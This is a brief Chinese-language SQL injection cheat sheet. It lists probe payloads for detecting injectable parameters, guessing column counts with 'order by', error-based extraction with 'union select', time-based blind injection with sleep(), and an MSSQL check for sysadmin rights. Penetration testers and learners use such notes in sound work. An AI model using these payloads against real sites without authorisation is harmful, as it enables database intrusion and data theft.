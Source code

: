 ## SQL注入
### 判断能否sql注入
* 提交单引号 ```id=1'```
* and大法和or大法 
```
id=2 and 1=1
id=2 or 1=1 
```
* 加减法
```
id=1+1
```
### 数据库权限判断

### 猜字段个数
* 在注入点后面加order by x


### 显错注入和盲注
*  显错注入，即带回显错误提示，可利用联合查询union select来爆出更多信息。
*  盲注，没有任何信息返回，一般可以利用时间sleep()来判断查询成功与否，使用and来盲猜数据库名，表名
### MSSQL
*  is_srvrolemember ('sysadmin')函数是用来判断当前的数据用户是否属于管理员组权限